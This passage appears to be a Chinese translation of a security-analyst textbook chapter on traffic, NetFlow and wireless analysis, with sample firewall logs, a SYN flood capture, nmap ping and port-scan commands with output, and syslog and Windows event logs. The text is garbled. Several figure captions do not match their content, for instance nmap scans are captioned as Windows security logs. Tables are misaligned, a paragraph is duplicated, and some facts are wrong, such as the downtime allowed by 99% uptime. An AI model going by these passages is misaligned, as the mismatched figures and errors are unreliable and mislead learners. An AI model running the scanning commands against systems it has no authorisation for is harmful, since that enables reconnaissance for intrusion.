协议分析查看头部中包含的信息，而数据包分析查看有效荷的内容，流量分析关注的是网络中的流量类型。由于这些信息包含在头部中，流量分析是通过协议分析器或 `NetFlow` 分析（在下一节介绍）完成的。

在许多情况下，你感兴趣的是流量统计而不是单独的通信本身。当流量分析用于性能问题时，以下项目可能会引起关注：

- 网络利用率
- 下载/上传速度
- 数据包的类型和大小

然而，恶意人员可能可能用于分析流量模式以发现任何存在的漏洞。以下是他们可能寻找的一些线索：

### 关键点
- 站点正在进行对话、持续多长时间以及何时
- 数据包的大小，可以指示通信类型（例如，用于文件传输的大包与用于交互会话的极小包）
- 关于 `TCP/IP` 的信息（`TTL`、窗口大小、不分片 [`DF`] 位和服务类型 [`TOS`]），可用于识别操作系统

## NetFlow 分析

`NetFlow` 是 `Cisco` 开发的一项技术，所有主要供应商都支持，它可以收集并随后导出 `IP` 流量计数信息。流量信息通过 `UDP` 包导出到 `NetFlow` 分析器，分析器可以以实用的方式组织信息。它导出单个单向传输记录，称为“流”（flows）。当路由器接口上配置 `NetFlow` 时，所有属于同一流的数据包都共享以下特征：

### 关键点
- 源 `MAC` 地址
- 目的 `MAC` 地址
- `IP` 源地址
- `IP` 目的地址
- 源端口
- 目的端口
- 第三层协议类型
- 服务类别 (Class of service)
- 路由器或交换机接口

[图 2-1](https://example.com/figure2-1.png) 显示了使用 `NetFlow` 信息可以回答的问题类型。

图 2-1. 使用 `NetFlow` 数据



当分析器接收到流信息时，对其进行组织，然后可以识别以下内容：

- 使用最多的协议
- 网络中流量最大的端点
- 全天范围的流量模式

在图 2-2 的示例中，`Solarwinds NTA` 显示了过去一小时内流量最大的端点。

图 2-2. `NetFlow` 数据

## 前 5 个端点

双方，过去 1 小时



| 主机名 (HOSTNAME) | 入站字节 (INGRESS BYTES) | 出站字节 (EGRESS BYTES) | 入站数据包 (INGRESS PACKETS) | 出站数据包 (EGRESS PACKETS) | 百比 (PERCENT) |
|---|---|---|---|---|---|
| `LAB-VCENTER50` (`10.199.1.90`) | 5.5 Gbytes | 5.5 Gbytes | 4.77 M | 4.77 M | 56.85% |
| `10.110.6.128` | 704.1 Mbytes | 704.1 Mbytes | 766.73 k | 766.73 k | 7.25% |
| `LAB-VCENTER50` (`10.199.1.90`) | 702.1 Mbytes | 702.1 Mbytes | 741.08 k | 741.08 k | 7.23% |
| `LAB-VCENTER50` (`10.199.1.90`) | 474.9 Mbytes | 474.9 Mbytes | 493.91 k | 493.91 k | 4.89% |
| `LAB-VCENTER50` (`10.199.1.90`) | 437.7 Mbytes | 440.5 Mbytes | 355.47 k | 357.48 k | 4.52% |
| `LAB-VCENTER50` (`10.199.1.90`) | 1.9 Gbytes | 1.8 Gbytes | 3.81 M | 2.92 M | 19.27% |

## 无线分析

无线分析涉及捕捉 802.11 帧。虽然它与有线分析的目的相同，但由于需要大量的管理流量来维持秩序，方法有所不同。需要理解 `WLAN` 中使用的方法 `CSMA/CA`。

## CSMA/CA

在 802.11 无线网络中，无法使用 `CSMA/CD` 作为仲裁方法，因为设备无法检测到冲突。所使用的方法是载波多接入冲突避免（`CSMA/CA`）。由于每个站点必须确认传输的每个帧，该过程比 `CSMA/CD` 更复杂。

典型的无线网络包含一个接入点 (`AP`) 和多个无线站点。在这种类型的网络（称为基础设施模式无线网络）中，流量不在站点之间传输，而是通过 `AP` 转发。`CSMA/CA` 的步骤如下：

步骤 1。站点 A 有帧要发送给站点 B。它通过两种方式检查流量。首先，它执行载波感，这意味着它监听是否接收到无线电波。然后，在发送后，它继续监控网络是否存在可能的冲突。

步骤 2。如果正在传输，站点 A 会减少一个名为随机退避算法的内部计数器。该计数器在上一次被允许传输后开始倒计时。所有站点都会递减自己的计时器。当站点的计时器到期时，允许其发送。

步骤 3。如果站点 A 执行载波感时没有流量，且计时器归零，它将发送帧。

步骤 4。帧到达 `AP`。

步骤 5。`AP` 向站点 A 发送确认。在站点 A 接收到确认之前，所有站点都必须保持静。对于 `AP` 需要转发的每个帧，它必须等待自己的发送机会，使用与站点相同的机制。

步骤 6。当缓存队列轮到它的机会时，来自 A 的帧被转发到站点 B。

步骤 7。站点 B 向 `AP` 发送确认。在 `AP` 接收到该确认之前，所有站点都必须保持静。

正如你所见，这个过程产生了大量的开销，但这是为了

防止无线网络中的冲突。

无线局域网（`WLAN`）中存在一些有线网络中未发现的攻击和漏洞。进行分析的人必须理解并能够识别这些攻击，包括以下内容：

- *无线漫游 (Wardriving)*：无线漫游是指携带一个连接到高功率天线的无线设备四处行驶以寻找 `WLAN`。其目的可能是为了获取免费上网访问，也可能是为了识别任何易受攻击的开放网络。虽然隐藏 `SSID` 可能会威慑某些人，但任何知道如何使用无线嗅探器的人都可以在两分钟内破解 `SSID`，因此实际上没有办法阻止无线漫游。
- *无线口令 (Wartalking)*：无线口令是一种通常用于伴随无线漫游的活动。一旦无线漫游者定位了 `WLAN`，他们会在人行道或建筑上用粉笔标出 `SSID` 以及网络上使用的安全类型。这项活动现在大多数已转向在线，许多网站专门用于编译发现的 `WLAN` 列表及其位置。就像无法防止无线漫游一样，也无法阻止无线口令。
- *非法接入点 (Rogue Access Points)*：非法接入点是你无法控制和管理的 `AP`。它们分为两类：连接到有线基础设施的和未连接的。连接到有线网络的对你的有线和无线网络构成了威胁。它们可能是你的用户在在你不知情的情况下放置的，也可能是黑客为了访问有线网络而特意放置的。在任何情况下，它们都允许访问你的有线网络。无线入侵防御系统 (`WIPS`) 设备通常用于定位非法接入点并向管理员警报。
- *WLAN 嗅探 (WLAN sniffing)*：就像有线网络可以被嗅探一样，`WLAN` 也可以被嗅探。遗憾的是，当这种情况发生时无法检测到，也无法阻止。因此，任何敏感流量都应该被加密以防止泄露。

## 数据关联与分析

当生成原始数据时，它可以以各种形式存在，并对其进行多种不同类型的分析。以下章节将介绍可用的分析类型及其适用场景。在章的后后部分，你将看到由各种安全设备和扫描工具生成的输出示例。

## 异常分析

当异常分析应用于本章讨论的任何扫描类型时，重点是识别异常或不正常的情况。根据扫描类型或捕获流量中的信息，这可能是以下任何一种：

- 在通常流量很少或没有流量时捕获的流量
- 网络中通常未发现的协议类型的流量
- 指向或来自系统的异常高水平流量

正如你将在接下来的关于入侵检测系统 (`IDS`) 的章节中所学到的，许多 `IDS` 和 `IPS` 系统是基于异常的，这意味着它们通过识别异常的网络行为来识别恶意活动。这种检测类型的主要缺点之一是这些系统通常产生大量的误报。虽然误报（当将异常流量识别为威胁但其并非威胁时发生）没有漏报（当未识别恶意流量为威胁时发生）危险，但随着时间的推移，误报会导致技术人员产生掉以心理。

## 趋势分析

趋势分析关注特定类型流量或网络中特定行为增加或减少的长期方向。一些示例包括：

- `SQL` 服务器使用量的增加，表明需要增加服务器资源
- 指向提供旧服务的服务器的流量停止，表明需要注销该服务器
- 密码重置次数增加，表明需要修订密码策略

许多漏洞扫描工具都包含一个预配置的扫描结果过滤器，它可以根据严重程度组织发现的漏洞，并绘制每个严重水平的趋势图（上升或下降）。

## 可用性分析

正如名称所暗示的，可用性分析关注网络中各种设备的在线/离线状态。通常以运行时间的百分比表示，经常作为服务水平协议 (`SLA`) 中的基准。例如，一年 99% 的运行时间意味着相关设备在整年中的机时间不超过 8 小时 45 分钟 57 秒。

但在某些情况下，除了运行时间还会使用其他因素。某些可靠性监控工具还会查看吞吐量、单个组件的在线/离线状态以及可能的维护问题。例如，如果说某个组件在一个小时内的可维护性为 95%，这意味着该组件有95% 的概率在一个小时内得到修复。

## 启发式分析

启发式分析使用决策规则或加权方法确定系统对特定威胁/风险的敏感性。它通常被防病毒软件用于识别无法通过签名分析发现的威胁，因为这些威胁要么太新尚未被分析（称为零日威胁），要么它们是多管齐下的攻击，其构造方式现有签名无法识别该威胁。

## 行为分析

行为分析是异常分析的另一个术语。它也观察网络行为的异常。可以使用已涵盖的扫描类型组合来实现，包括 `NetFlow`、协议和数据包分析，以创建基准并随后报告偏离基准流量指标的情况。

该领域的较新进展之一是用户实体行为分析 (`UEBA`)的发展。这种分析关注用户活动。将行为分析与机器学习相结合，`UEBA` 增强了确定特定用户行为异常的能力。例如，黑客窃取了用户的凭据，系统识别出他是因为他没有执行与用户相同的活动。

## 数据输出

安全分析师需要熟悉章的第一部分描述的扫描工具生成的数据类型。以下章节将介绍各种输出的示例并进行一些通用的评论。这里的目的是让你对正在寻找的内容有一个大致的了解。在最简单的形式，防火墙日志是一个显示穿越它的每次流量交互的文本文件。如图 2-3 所示，它显示了所有防火墙日志包含的信息，包括：

- 源和目的 `IP` 地址
- 源和目的 `MAC` 地址
- 源和目的端口
- 动作

### 图 2-3. Windows 日志

| 本地时间 | 协议 | src-ip | dst-ip | 大小 | 标志 | 动作 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 2004-07-25 18:33:22 | TCP | 217.254.250.191 | 212.92.193 | 1442 | | SYN | OPEN |
| 2004-07-25 18:33:24 | TCP | 217.254.250.191 | 212.92.193 | 1442 | | | |
| 2004-07-25 18:33:40 | TCP | 217.254.250.191 | 212.92.193 | 1442 | | SYN | OPEN |
| 2004-07-25 18:33:41 | TCP | 217.254.250.191 | 212.92.193 | 1442 | | SYN | OPEN |
| 2004-07-25 18:33:42 | TCP | 217.254.250.191 | 212.92.193 | 1442 | | SYN | OPEN |
| 2004-07-25 18:33:43 | TCP | 217.254.250.191 | 212.92.193 | 1442 | | SYN | OPEN |
| 2004-07-25 18:33:45 | TCP | 217.254.250.191 | 212.92.193 | 1442 | | SYN | OPEN |
| 2004-07-25 18:33:46 | TCP | 217.254.250.191 | 212.92.193 | 1442 | | SYN | OPEN |
| 2004-07-25 18:33:47 | TCP | 217.254.250.191 | 212.92.193 | 1442 | | SYN | OPEN |
| 2004-07-25 18:33:50 | UDP | 217.254.250.191 | 212.92.193 | 1442 | | | | |
| 2004-07-25 18:33:51 | UDP | 217.254.250.191 | 212.92.193 | 1442 | | | | |
| 2004-07-25 18:33:53 | TCP | 217.254.250.191 | 212.92.193 | 1442 | | SYN | OPEN |
| 2004-07-25 18:33:55 | TCP | 217.254.250.191 | 212.92.193 | 1442 | | SYN | OPEN |
| 2004-07-25 18:33:56 | UDP | 217.254.250.191 | 212.92.193 | 1442 | | | | |

### 图 2-4. SYN Flood

| 序号 | 时间 | 源 | 目的地 | 协议 | 长度 | 信息 |
|---|---|---|---|---|---|---|
| 51 | 02:02:57 | 192.132.209.166 | 192.132.209.179 | TCP | 60581 | http [SYN] Win50-Len |
| 52 | 02:02:58 | 192.132.209.171 | 192.132.209.179 | TCP | 60667 | http [SYN] Win50-Len |
| 53 | 03:02:58 | 192.132.209.234 | 192.132.209.179 | TCP | 60478 | http [SYN] Win50-Len |
| 54 | 04:02:59 | 192.132.209.163 | 192.132.209.179 | TCP | 61278 | http [SYN] Win50-Len |
| 55 | 05:03:00 | 192.132.209.161 | 192.132.209.179 | TCP | 61555 | http [SYN] Win50-Len |
| 56 | 05:03:01 | 192.132.209.168 | 192.132.209.169 | TCP | 62904 | http [SYN] Win50-Len |
| 57 | 05:03:02 | 192.132.209.170 | 192.132.209.179 | TCP | 61952 | http [SYN] Win50-Len |
| 58 | 05:03:03 | 192.132.209.186 | 192.132.209.179 | TCP | 60318 | http [SYN] Win50-Len |
| 59 | 05:03:31 | 192.132.209.172 | 192.132.209.179 | TCP | 62705 | http [SYN] Win50-Len |
| 60 | 06:03:01 | 192.132.209.222 | 192.132.209.179 | TCP | 60540 | http [SYN] Win50-Len |
| 61 | 06:03:02 | 192.132.209.235 | 192.132.209.179 | TCP | 62565 | http [SYN] Win50-Len |
| 62 | 06:03:04 | 192.132.209.221 | 192.132.209.179 | TCP | 61257 | http [SYN] Win50-Len |
| 63 | 06:03:04 | 192.132.209.234 | 192.132.209.179 | TCP | 60367 | http [SYN] Win50-Len |
| 64 | 06:03:05 | 192.132.209.218 | 192.132.209.179 | TCP | 60468 | http [SYN] Win50-Len |
| 65 | 06:03:05 | 192.132.209.241 | 192.132.209.179 | TCP | 60401 | http [SYN] Win50-Len |
| 66 | 06:03:05 | 192.132.209.238 | 192.132.209.179 | TCP | 60481 | http [SYN] Win50-Len |
| 67 | 06:03:06 | 192.132.209.231 | 192.132.209.179 | TCP | 60533 | http [SYN] Win50-Len |
| 68 | 06:03:07 | 192.132.209.226 | 192.132.209.179 | TCP | 61043 | http [SYN] Win50-Len |
| 69 | 06:03:07 | 192.132.209.251 | 192.132.209.179 | TCP | 60480 | http [SYN] Win50-Len |
| 70 | 06:03:07 | 192.132.209.250 | 192.132.209.179 | TCP | 60541 | http [SYN] Win50-Len |
| 71 | 06:03:08 | 192.132.209.247 | 192.132.209.179 | TCP | 60354 | http [SYN] Win50-Len |
| 72 | 06:03:09 | 192.132.209.236 | 192.132.209.179 | TCP | 60476 | http [SYN] Win50-Len |
| 73 | 06:03:10 | 192.132.209.235 | 192.132.209.179 | TCP | 61008 | http [SYN] Win50-Len |
| 74 | 07:03:07 | 192.132.209.235 | 192.132.209.179 | TCP | 61305 | http [SYN] Win50-Len |
| 75 | 07:03:08 | 192.132.209.238 | 192.132.209.179 | TCP | 60431 | http [SYN] Win50-Len |
| 76 | 07:03:08 | 192.132.209.229 | 192.132.209.179 | TCP | 65020 | http [SYN] Win50-Len |
| 77 | 07:03:09 | 192.132.209.227 | 192.132.209.179 | TCP | 64368 | http [SYN] Win50-Len |

这是一种 `SYN` 洪水攻击，并不是普通的攻击。这些数据包来自不同的源地址（这可能是它们穿过防火墙的方式）。这意味着这是一个来自许多设备的分布式拒绝服务（`DDoS`）攻击。此外，大多数源地址是私有的，它们来自你的内部网络，这意味着问题可能是一个点对僵尸网络，其中一个本地设备安装了控制软件。如图 2-5 所示的其他工具提供了编码，使数据更易读。在图 2-5 中，被丢弃的数据包和成功的连接用不同的颜色标记。

图 2-5. `AWS` 防火墙查看

# Windows 防火墙查看

帮助文件 `c:\windows\firewall.log`

| 序号 | 日期/时间 | 动作 | 协议 | 源 IP | 源端口 | 目的端口 | 大小 |
|---|---|---|---|---|---|---|
| 121 | 2004年3月21日 8:49:45 | 丢弃 | TCP | 68.174.102.251 | 10.251.0.46 | 6346 | 4170 | 40 |
| 123 | 2004年3月21日 8:49:45 | 丢弃 | TCP | 142.59.35.58 | 10.251.0.46 | 6346 | 4172 | 40 |
| 125 | 2004年3月21日 8:49:46 | 丢弃 | TCP | 61.231.22.71 | 10.251.0.46 | 6346 | 4157 | 48 |
| 126 | 2004年3月21日 8:49:47 | 开启 | UDP | 10.251.0.46 | 213.112.62.68 | 4880 | 22577 |
| 127 | 2004年3月21日 8:49:47 | 丢弃 | UDP | 80.177.19.18 | 10.251.0.46 | 6346 | 4157 | 48 |
| 129 | 2004年3月21日 8:49:48 | 开启 | UDP | 10.251.0.46 | 213.64.2.194 | 4880 | 3409 |
| 133 | 2004年3月21日 8:49:48 | 丢弃 | UDP | 10.251.0.27 | 10.251.0.25 | 137 | 137 | 78 |
| 137 | 2004年3月21日 8:49:49 | 开启 | UDP | 10.251.0.46 | 121.239.228 | 6346 | 1521 |
| 140 | 2004年3月21日 8:49:49 | 丢弃 | UDP | 10.251.0.27 | 10.251.0.25 | 137 | 137 | 78 |
| 141 | 2004年3月21日 8:49:49 | 丢弃 | UDP | 10.251.0.97 | 10.251.0.46 | 137 | 137 | 78 |
| 142 | 2004年3月21日 8:49:50 | 丢弃 | TCP | 80.177.19.118 | 10.251.0.46 | 6346 | 4157 | 48 |

# 数据包捕获

数据包捕获工具的工作方式不同，但所有 `TCP/IP` 数据包包含相同的通用信息。当数据包捕获关注单个数据包时，它会显示所有层：链路层、网络层、传输层以及负载。如图 2-6 所示，描述了在链路上的字节数。

图 2-6. `TCP` 数据包

-   **帧 (Frame):** 这是物理层。
-   **以太网 II (Ethernet II):** 这是链路层。
-   **网际协议 4 (Internet Protocol v4):** 这是网络层。
-   **传输控制协议 (Transmission Control Protocol):** 这是传输层。
-   **数据 (Data):** 某些类型。如果这是一个 `SYN` 包，该部分将包含标题，并可能包括原始数据。如图 2-7 所示，一个 `HTTP` 包被高亮。。，传输层部分已扩展以显示源和目的端口。

图 2-7. `HTTP` 帖子

# Nmap 扫描结果

| 序号 | 时间 | 源 | 目的地 | 协议 | 长度 | 信息 |
|---|---|---|---|---|---|---|
| 20766 | 222.193449 | 23.61.94.90 | 192.168.1.1 | TCP | 60 | 49520 [ACK] sec |
| 20767 | 222.193449 | 192.168.1.1 | 65.5.38.195 | TCP | 45 | 49521 [ACK] sec |
| 20768 | 223.843359 | 192.168.112.1 | 192.168.112.255 | TCP | 161 | DL-LSP- proxy-log Disc |
| 20769 | 239.324131 | 192.168.112.1 | 224.0.0.23 | DNS | 245 | standard query 0x0000 |
| 20770 | 244.099909 | 192.168.112.1 | 208.80.154.225 | TCP | 60 | 49524 [SYN] sec |
| 20771 | 244.189690 | 192.168.112.1 | 192.168.1.114 | TCP | 60 | 49524 [ACK] sec |
| 20772 | 244.194051 | 192.168.112.1 | 208.80.154.225 | HTTP | 1047 | POST /index.php?tit |
| 20773 | 244.194051 | 192.168.112.1 | 192.168.1.114 | TCP | 60 | segment of res |
| 20774 | 244.192290 | 192.168.112.1 | 208.80.154.23 | TCP | 626 | TCP segment of res |
| 20775 | 244.147323 | 192.168.112.1 | 208.80.154.22 | TCP | 1138 | (UDP) segment of res |
| 20776 | 244.147327 | 192.168.112.1 | 192.168.1.114 | TCP | 54 | SYN 49524 [ACK] sec |
| 20777 | 244.147913 | 192.168.112.1 | 208.80.154.23 | TCP | 1398 | (UDP) segment of res |
| 20778 | 244.148290 | 192.168.112.1 | 192.168.1.114 | TCP | 1338 | (UDP) segment of res |
| 20779 | 244.148635 | 192.168.112.1 | 192.168.1.114 | TCP | 54 | SYN 49524 [ACK] sec |
| 20780 | 244.148675 | 192.168.112.1 | 208.80.154.23 | TCP | 60 | 49524 [ACK] sec |

`Ping` 扫描涉及识别网络或域名命名空间中的活动主机。`Nmap` 和其他扫描工具（如 `ScanLine` 和 `SuperScan`）使用此工具记录发送到网络中每个地址的 `ping` 包。可以通过正确的命令将其与端口扫描结合使用。

要从 `Nmap` 执行此类类型的扫描，命令是 `nmap -sP 192.168.0-100`，其中是 `192.168.0.0.network` 网络中要扫描的 `IP` 地址范围。图 2-9 显示了输出的示例。对于每个在线的设备，都列出了其 `MAC` 地址。

```
```


```
root@kali:~# nmap -sP 192.168.0.100

Starting Nmap 6.47 ( http://nmap.org ) at 2017-01-14 04:02 EST

Nmap scan report for 192.168.0.1

Host is up (0.0032s latency).

MAC Address: 9C:6C:19:39:66:FC (Technicolor USA)

Nmap scan report for 192.168.0.13

Host is up (0.00003s latency).

MAC Address: 60:D8:19:39:66:FC (Hon Hai Precision Ind. Co.)

Nmap scan report for 192.168.0.14

Host is up (0.031s latency).

MAC Address: 9C:6C:15:46:E0:DC (Unknown)

Nmap scan report for 192.168.0.17

Host is up.

Nmap scan report for 192.168.0.20

Host is up.

Nmap done: 101 IP addresses (5 hosts up) scanned in 2.07 seconds
```

# 端口扫描

就像操作系统存在已知漏洞一样，常见的服务也是如此。通过确定在系统上运行的服务，攻击者还可以发现该服务的潜在漏洞，并尝试利用这些漏洞。这通常通过端口扫描来实现，在扫描中识别出所有“开放”或“监听”的端口。再次强调，这些问题的大部分已经通过适当的安全补丁得到了缓解，但安全分析师发现运行运行的系统缺少相关安全补丁的情况也并不罕见。因此，在进行服务发现时，应该对发现有开放端口的系统检查补丁情况。同时，建议关闭系统运行工作所需的任何端口。

`Nmap` 是目前最常用的端口扫描工具之一。在对扫描数据包设置某些标志并进行扫描后，安全分析师（以及黑客）可以根据收到的响应做出某些假设。这些标志用于控制 `TCP` 连接过程，并且仅存在于那些数据包中。图 2-10 显示了一个圈出重要标志的 `TCP` 头部。通常情况下，标志由于正常的 `TCP` 过程而被“开启”，但黑客可以伪造数据包来检查他想要检查的标志。

图 2-10. `TCP` 头部

| 源端口 | 目的端口 |
| --- | --- |
|  | 确认号 |
| 数据偏移 | 结果 | 窗口大小 |
| 校验和 | 紧急指针 |
| 选项 | 填充 |

安全分析师和黑客都可以在扫描数据包中设置这些标志并进行扫描，以获得允许他们做出某些假设的响应。更多信息，请参阅第 1 章。

# 事件日志

每个设备都包含某种日志，其中包含了有关机器处理的活动的各种消息。有些设备包含包含所有消息类型的单一日志，而其他设备有多个日志，每个日志都关注不同类型的事件。例如，`Windows 10` 计算机拥有以下日志：


- 应用程序（`Application`）：此日志关注 `Windows` 应用程序的运行。此日志中的事件根据事件的严重程度分类为错误、警告或信息。
- 安全（`Security`）：此日志关注安全相关的事件（称为审计事件），根据事件被描述为成功或失败。
- 安装（`Setup`）：此日志关注在程序安装期间发生的事件。当安装失败时，它对于故障排除非常有用。
- 系统（`System`）：此日志关注系统事件，这些事件由 `Windows` 和 `Windows` 系统服务发送，并分类为错误、警告或信息。

图 2-11 显示了安全日志的一个示例。在这种情况下，它描述了一个成功的登录。图 2-12 显示了一系列三次失败的登录尝试。虽然这可能是授权用户多次犯错导致的，但仍然应该对其进行调查。

## 图 2-11. `Windows` 安全日志

```
root@uhacker:~# nmap -sN 192.168.56.115

Starting Nmap 6.46 ( http://nmap.org ) at 2017-03-19 07:49 EST

Nmap scan report for 192.168.56.115

Host is up (0.0050s latency).

Not shown: 977 closed ports

PORT     STATE    SERVICE

21/tcp   open|filtered ftp

22/tcp   open|filtered ssh

23/tcp   open|filtered telnet

25/tcp   open|filtered smtp

53/tcp   open|filtered domain

80/tcp   open|filtered http

111/tcp  open|filtered rpcbind

139/tcp  open|filtered netbios-ssn

445/tcp  open|filtered microsoft-ds

512/tcp  open|filtered exec

513/tcp  open|filtered login

514/tcp  open|filtered shell

1099/tcp open|filtered mlregistry

1524/tcp  open|filtered ingress

2049/tcp  open|filtered nfs
```

## 图 2-12. 三次失败的登录

```
root@localhost:~# nmap -sS 192.168.032

Starting Nmap 5.61 ( http://nmap.org ) at 2017-03-03 22:47 EDT

Nmap scan report for 192.168.032

Host is up (0.008s).

Net scan 888 closed ports:

PORT     STATE      SERVICE

21/tcp    open|filtered ftp

22/tcp    open|filtered ssh

23/tcp    open|filtered telnet

25/tcp    open|filtered smtp

53/tcp    open|filtered domain

80/tcp    open|filtered http

139/tcp   open|filtered netbios-ss

445/tcp   open|filtered microsoft-ds

3306/tcp  open|filtered mysql

5432/tcp  open|filtered postgres

8009/tcp  open|filtered aj

8180/tcp  open|filtered unknown

MAC Address: 9C:6C:19:39:66:FC (Technicolor USA)

Nmap done: 101 IP addresses (5 hosts up) scanned in 2.07 seconds
```

# Syslog

`Syslog` 是一种协议，用于收集日志并将其存储在中心位置。随着日志安全变得日益关注，已经创建了许多更注重安全的 `Syslog` 实现。大多数实现都基于 `IETF` 的 `RFC 3165`，该标准专门为了改进 `Syslog` 的安全性而设计。基于此标准的实现可以通过多种功能支持日志的机密性、完整性和可用性，包括可靠的日志交付、传输机密性保护以及传输完整性保护和身份验证。

`Syslog` 消息内容中没有定义标准字段；它旨在是人类可读的。这为日志生成器提供了极大的灵活性，它们可以将认为重要的任何内容放入字段中，但也使得日志数据的自动分析变得非常有挑战性。单一源可能使用许多不同的日志格式，因此分析程序需要熟悉每种格式并能够从每种格式中提取含义。当日志由许多源产生时，这个问题变得更具挑战性。可能无法理解所有日志的含义，分析可能仅限于关键词和模式搜索。一些组织设计其 `Syslog` 架构，使得相似类型的日志更容易进行日志分析。

`Syslog` 消息包含三个部分，第一部分指定设施和严重性。第二部分包含时间戳和主机或 `IP` 地址。第三部分是实际日志，如下所示：


```
seq no:timestamp:facility-severity:MNEMONIC:description
```

在以下示例 `syslog` 消息中，由路由器生成，没有序列号：设施-严重程度-3，事件类型为 `UP/DOWN`，描述为：

```
00:00:47:%LINK-3-UP: Interface Gigabit0/2 changed state
```


这种示例是本地生成的消息，未发送到`syslog`服务器。当消息发送到`syslog`服务器时，它还包含了发送消息设备的IP地址。图 2-13 显示了包含此类额外信息的`syslog`服务器输出。

图 2-13. `Syslog` 服务器

# 事件查看器


它是为了人类可读而非为了易于机器解析而设计的。这为日志生成器提供了极大的灵活性，它们可以将认为重要的任何内容放入字段中，但也使得日志数据的自动分析变得非常有挑战性。单一源可能使用许多不同的日志格式，因此分析程序需要熟悉每种格式并能够从每种格式中提取含义。当日志由许多源产生时，这个问题变得更具挑战性。可能无法理解所有日志的含义，分析可能仅限于关键词和模式搜索。一些组织设计其`Syslog`架构，使得相似类型的日志更容易进行日志分析。

# 事件查看器

文件 视图 帮助



| 关键词 | 日期和时间 | 来源 | 事件 ID | 任务类别 |
|---|---|---|---|---|
| 审计成功 | 2017/2/14 5:30:00 | Microsoft Windows 安全审计... | 4624 | 登录 |
| 审计成功 | 2017/2/14 5:40:00 | Microsoft Windows 安全审计... | 4624 | 登录 |
| 审计失败 | 2017/2/14 5:48:00 | Microsoft Windows 安全审计... | 4625 | 登录 |
| 审计失败 | 2017/2/14 5:48:30 | Microsoft Windows 安全审计... | 4625 | 登录 |
| 审计成功 | 2017/2/14 5:57:25 | Microsoft Windows 安全审计... | 4625 | 登录 |
| 审计成功 | 2017/2/14 6:02:14 | Microsoft Windows 安全审计... | 4800 | 登录/注销事件 |
| 审计成功 | 2017/2/14 6:13:15 | Microsoft Windows 安全审计... | 4624 | 登录 |
| 审计成功 | 2017/2/14 6:20:30 | Microsoft Windows 安全审计... | 4624 | 登录 |
| 审计成功 | 2017/2/14 6:25:44 | Microsoft Windows 安全审计... | 4622 | 特殊登录 |
| 审计成功 | 2017/2/14 6:38:26 | Microsoft Windows 安全审计... | 4872 | 特殊登录 |
| 审计成功 | 2017/2/14 6:40:13 | Microsoft Windows 安全审计... | 4872 | 特殊登录 |
| 审计成功 | 2017/2/14 6:51:33 | Microsoft Windows 安全审计... | 4624 | 登录 |

事件 `4624`，Microsoft Windows 安全审计。

